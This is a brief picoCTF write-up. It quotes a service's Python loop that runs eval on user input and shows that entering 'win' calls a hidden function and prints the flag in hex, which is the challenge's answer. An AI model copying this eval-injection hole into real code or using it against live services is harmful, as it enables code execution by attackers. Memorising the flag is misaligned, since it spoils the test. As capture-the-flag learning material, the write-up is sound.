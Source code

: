 # URL
https://play.picoctf.org/playlists/2?m=14

# Details
This service can provide you with a random number, but can it do anything else?
Connect to the program with netcat:
$ nc saturn.picoctf.net 64000
The program's source code can be downloaded here.

# Work

* The code has a win() function that prints the flag, so I know I have to reach here somehow
* Later down in the code, I see this:
```
 while(True):
  try:
    print('Try entering "getRandomNumber" without the double quotes...')
    user_input = input('==> ')
    eval(user_input + '()')
```

* The eval function (a huge security risk btw) takes our input + the parentheses
* Knowing this, I just typed win and look at what I get
```
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 63251
Try entering "getRandomNumber" without the double quotes...
==> win
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x62 0x35 0x32 0x33 0x62 0x32 0x61 0x31 0x7d 
Try entering "getRandomNumber" without the double quotes..
```
* I put the hexadecimal into an hex -> ascii converter and got the flag!
